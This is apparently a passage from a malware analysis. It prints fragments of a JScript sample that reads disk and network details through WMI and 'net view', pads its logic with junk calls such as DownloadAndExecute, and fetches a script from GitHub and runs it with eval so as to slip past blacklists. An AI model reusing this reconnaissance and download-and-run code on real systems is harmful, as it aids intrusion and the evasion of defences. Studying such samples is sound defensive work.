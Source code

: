 ```js
   for(var i= new Enumerator(wmi.ExecQuery("SELECT * FROM Win32_LogicalDisk"));!i.atEnd();i.moveNext())
   {
    if(DoTasks=== null){DownloadAndExecute(null);LoadJsonParser= null};
    if(i.item().Size!= null)
    {
     available+= (i.item().FreeSpace/ 1024/ 1024/ 1024);
     total+= (i.item().Size/ 1024/ 1024/ 1024)
    }
   };
  initInfo["storage"]= Math.round(available)+ ' / '+ Math.round(total)+ ' GB';
  }
  catch(err){initInfo["storage"]= '0 / 0 GB';};
  try
  {
   var pcs=0;
   var output=ExecuteAndOutput("net view");
   var lines=output.split('\x0A');
   if(lines.length> 6) {pcs= lines.length- 6};
   initInfo["network"]= pcs;
  }
  catch(err){initInfo["network"]= '0'};
  if(SendTaskResult=== null){GetFilenameFromURL();SendClientInfo= null;return};
  initInfo["version"]= version;
  return initInfo
 }
 ```

 <h6>The final function is the parser that a js script downloaded from a legit account (repository created in 2010). This is use the fact or the legit website like github for bypass the blacklist.</h6>

 ```js
 function LoadJsonParser()
 {
  var xObj=WSH.CreateObject('Microsoft.XMLHTTP'),fso=WSH.CreateObject('Scripting.FileSystemObject'),temp=WSH.CreateObject('WScript.Shell').Environment('Process')('temp'),j2lib='https://raw.githubusercontent.com/douglascrockford/JSON-js/master/json2.js';
  if(DownloadAndExecute=== null){GetClientInfo= false};
  if(fso.FileExists(temp+ '\\json2.js'))
  {
   j2lib= fso.OpenTextFile(temp+ '\\json2.js',1);
   eval(j2lib.ReadAll());
   j2lib.Close();
  }
  else 
  {
   with(xObj)
   {
    open("GET",j2lib,true);
    setRequestHeader('User-Agent','XMLHTTP/1.0');
    send('');
   };
   while(xObj.readyState!= 4){WSH.Sleep(50)};
   eval(xObj.responseText);
   if(GetClientInfo=== 1){LoadJsonParser= 0;return};
   j2lib= fso.CreateTextFile(temp+ '\\json2.js',true);
   j2lib.Write(xObj.responseText);
   j2lib.Close()
  }
 }
```
